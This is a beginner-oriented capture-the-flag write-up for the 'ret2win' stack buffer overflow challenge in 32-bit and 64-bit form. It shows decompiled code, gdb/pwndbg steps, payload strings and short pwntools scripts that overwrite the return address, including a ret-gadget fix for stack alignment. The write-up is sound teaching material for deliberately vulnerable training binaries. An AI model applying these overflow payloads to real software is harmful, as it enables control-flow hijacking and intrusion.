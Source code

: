 # RET2WIN

I'll try to keep this as beginner-friendly as possible but frankly a lot of self-learn and searching is unavoidable.
Sites like [CTF101](https://ctf101.org/binary-exploitation/return-oriented-programming) and [bufferoverflows](https://bufferoverflows.net) are highly recommended.

## 32-bit

The first step (and often a free flag in CTFs)

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  First we can gather basic information with the `file` command in Linux:
  
```
ret2win32: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2,
for GNU/Linux 3.2.0, BuildID[sha1]=e1596c11f85b3ed0881193fe40783e1da685b851, not stripped
```
  
  It is a **32-bit, little-endian** (LSB) executable file.
  
  This 32-bit ELF can be disassembled in [gdb](https://linux.die.net/man/1/gdb) (debugger/disassembler in most linux systems) or [ghidra](https://ghidra-sre.org/) (powerful disassembler/decompiler).
  I like to use ghidra more because usually the decompiled C code will give me a better picture.

``` c
void pwnme(void){
  undefined local_2c [40];
  
  memset(local_2c,0,0x20);
  puts(
      "For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffe r!"
      );
  puts("What could possibly go wrong?");
  puts(
      "You there, may I have your input please? And don\'t worry about null bytes, we\'re using read ()!\n"
      );
  printf("> ");
  read(0,local_2c,0x38);
  puts("Thank you!");
  return;
}

void ret2win(void){ // 0x0804862c
  puts("Well done! Here\'s your flag:");
  system("/bin/cat flag.txt");
  return;
}
```
  
  Despite the description, the buffer is 40-byte long.
  As we can provide `0x38` bytes, which is greater than the 40 allocated, we can *overflow the buffer*.
  But what can happen? This is what **binary exploitation** or **pwn** is about.
  
  ### Introducing the stack
  
  No introduction to pwn can start without a nice graph of the program stack:
  
  ![Stack from Yale](https://flint.cs.yale.edu/cs421/papers/x86-asm/stack-convention.png)
  
  The stack is what computers use to control the program flow. Instruction addresses and parameters are pushed to and popped from the stack.
  There are many videos on Youtube illustrating how the stack is used by programs and I highly recommend watching them.
  It's important to recognize that *knowledge to the stack is fundamental to pwn*.
  
  Now we can answer the question *what can happen*.
  As our data are filled in, starting from some point in the current stack frame (space between `esp` and `ebp`) towards higher register (lower in the stack),
  we can control the value stored at `ebp` and most importantly the **return address**, i.e. where the program will jump to after finishing `pwnme`.
  This is the basic idea of *ret2win*. No parameters, no other protections, no complicated command chaining, just change the return address and win.
  
  ### Devising and implementing the payload
  
  There are many tools available for debugging and supplying inputs. I'm currently using:
  - **gdb/[pwndbg](https://browserpwndbg.readthedocs.io/en/docs/)**: add breakpoints, stack inspection
  - **[pwntools](https://docs.pwntools.com/en/stable/)**: a python library for interacting with processes with many handy tools for pwn
  
  For this challenge, here are some gdb commands that can be handy:
  
  ```
  set telescope-skip-repeating-val off (always show stack even for repeating values)
  info functions (display functions and their addresses)
  disassemble pwnme (show assembly of function)
  break *pwnme+105 (add a breakpoint, notice it should be added after reading user input)
  r <<< "ABCD" (the most simple way of supplying input before starting program)
  ```
  
  ![image](https://user-images.githubusercontent.com/114584910/197354065-3be9df7b-c29e-42cd-b9e6-fd40da0f168d.png)

  From the screenshot, we can clearly see the `esp` and `ebp` registers, the 40 byte space (`0xe8-0xc0`) allocated, as well as the return pointer pointing to `0x08048590 (main+74)`.
  The overall shape should be similar to the previous graph.
  
  So we can supply `"A"*44+"\x2c\x86\x04\x08"` to the program. Even if some characters cannot be typed, there are many ways to do this in gdb with some bash and python magic:
  - `r <<< $(echo -e "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x2c\x86\x04\x08")`
  - `r <<< $(python3 -c 'from pwn import *;import sys;sys.stdout.buffer.write(b"A"*44+p32(0x0804862c))')`
  - write the payload to a file (with python, [hexed.it](https://hexed.it), etc) and load it with `r < filename`
  
  It's worth noting that [Python stdout uses `utf-8`](https://docs.python.org/3/library/sys.html#sys.stdout),
  so our `\x86` will become `\xc2\x86` if printed directly using `print`.
  *(the earlier one quits using `print`, the less one has to worry about supplying payload)*
    
  The pwntools python script is also very short:

``` py
from pwn import *
p = process('./ret2win32')
p.sendafter(b'> ', b"A"*(40+4)+p32(0x0804862c))
p.interactive()
```
</details>

## 64-bit

Some parts assume that you have read the 32-bit solution.

<details>
  <summary><b>Solution:</b></summary>
  
  ### Information gathering
  
  For 64-bit ELFs, we can also use IDA to decompile the program. 
  The difference between using either of them is not very apparent (at least to my current understanding) so it's just personal preference:

``` c
int pwnme(){
  char s[32]; // [rsp+0h] [rbp-20h] BYREF

  memset(s, 0, sizeof(s));
  puts("For my first trick, I will attempt to fit 56 bytes of user input into 32 bytes of stack buffer!");
  puts("What could possibly go wrong?");
  puts("You there, may I have your input please? And don't worry about null bytes, we're using read()!\n");
  printf("> ");
  read(0, s, 0x38uLL);
  return puts("Thank you!");
}

int ret2win(){ //0x400756
  puts("Well done! Here's your flag:");
  return system("/bin/cat flag.txt");
}
```
  
  ### Devising and implementing the payload
  
  Using gdb/pwndbg:
  
  ![image](https://user-images.githubusercontent.com/114584910/197355965-a537b74b-88c6-495a-981e-2a08f1f79f50.png)

  Immediately we can see a difference: addresses in 32-bit ELF are 32-bit (4-bytes) while those for 64-bit are 64-bit (8-bytes).
  
  Applying what we have learnt:
  
``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400756)) # remember to change to p64
p.interactive()
```
  
  ![image](https://user-images.githubusercontent.com/114584910/197356165-82a57dac-2a6a-4272-9c97-94de051b1a79.png)

  Although we have entered the `ret2win` function (as confirmed by the backtrace and message), a segfault happened *within* it.
  Fortunately this is [hinted by ROP Emporium as well](https://ropemporium.com/guide.html#Common%20pitfalls).
  This is an example of how [stack misalignment](https://technical-qa.com/what-is-the-stack-alignment/) can be an issue when building x64 exploits.
  
  *Wait, what's a `ret` gadget?*
  
  In more advanced pwn challenges, we have to build a chain of commands using fragments of the existing assembly code known as *gadgets*.
  A `ret` gadget "transfers control to the return address located on the stack" immediately and does not do anything on its own.
  It is a useful placeholder to change stack alignment.
  
  All functions end with `ret` and one such example can be found at 0x400755.
  
  Final script:

``` py
from pwn import *
p = process('./ret2win')
p.sendafter(b'> ', b"A"*(32+8)+p64(0x400755)+p64(0x400756))
p.interactive()
```
  
  ### A note on using gdb
  
  The following script in gdb will **not** work:

```bash
r <<< $(python3 -c 'from pwn import *;import sys;sys.stdout.buffer.write(b"A"*(40)+p64(0x400755)+p64(0x400756))')
```
  ![image](https://user-images.githubusercontent.com/114584910/197382560-f7ae5cae-28ac-4025-88eb-80603f888f07.png)
  
  The reason is mentioned in the warning message:
              
  ![image](https://user-images.githubusercontent.com/114584910/197382619-0129fcb1-ed2d-42f9-8610-6b1fd36571e9.png)

  When using `<<<` to supply input through stdin in bash, the null character `\x00` are ignored. So our payload `\x55\x07\x40\x00\x00\x00\x00\x00\x56\x07\x40\x00\x00\x00\x00\x00` became `\x55\x07\x40\x56\x07\x40`.
  This can be overcome by using [process substitution](https://tldp.org/LDP/abs/html/process-sub.html):

```bash
r < <(python3 -c 'from pwn import *;import sys;sys.stdout.buffer.write(b"A"*(40)+p64(0x400755)+p64(0x400756))')
```
  
  ![image](https://user-images.githubusercontent.com/114584910/197382839-8c10abba-7ff2-41d6-be88-ad8bbdee5d2e.png)

</details>
